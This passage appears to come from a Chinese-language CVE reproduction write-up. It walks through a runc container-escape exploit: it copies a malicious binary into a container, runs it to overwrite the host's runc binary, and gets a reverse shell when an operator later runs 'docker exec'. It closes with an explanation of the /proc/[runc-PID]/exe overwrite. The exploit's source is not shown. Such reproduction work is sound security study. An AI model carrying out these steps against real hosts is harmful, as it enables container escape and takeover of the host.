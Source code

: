 ```
把下载好的恶意文件复制到容器中。
docker cp ./main  f0edfcf0b9ef:/home
```

![image-20241129170406951](CVE漏洞复现/image-20241129170406951.png)	

```
登陆容器，将main文件设置最高权限。
docker exec -it f0edfcf0b9ef /bin/sh
cd /home
chmod 777 main
```

![image-20241129170645276](CVE漏洞复现/image-20241129170645276.png)	

```
运行恶意的exp，修改runc文件，这样当下次使用docker exec就会触发反弹shell.
./main
```

![image-20241129170739901](CVE漏洞复现/image-20241129170739901.png)	

```
此时当运维人员，使用docker exec操作容器，就会触发恶意反弹shell命令
docker exec -it f0edfcf0b9ef /bin/bash
```

![image-20241129170927363](CVE漏洞复现/image-20241129170927363.png)	

```
获得shell.
```

![image-20241129171424692](CVE漏洞复现/image-20241129171424692.png)		

```
攻击原理：
在runc exec加入到容器的命名空间之后（runc运行原理），容器内进程已经能够通过内部/proc（虚拟文件系统）观察到
它，此时如果打开/proc/[runc-PID]/exe并写入一些内容，就能够实现将宿主机上的runc二进制程序覆盖。下一次用户调用runc去执行命令时，实际执行的将是攻击者放置的指令。
总结：
篡改了系统的runc文件，在其中加入恶意代码，在下一次运行run exec的时候导致恶意代码执行。
```
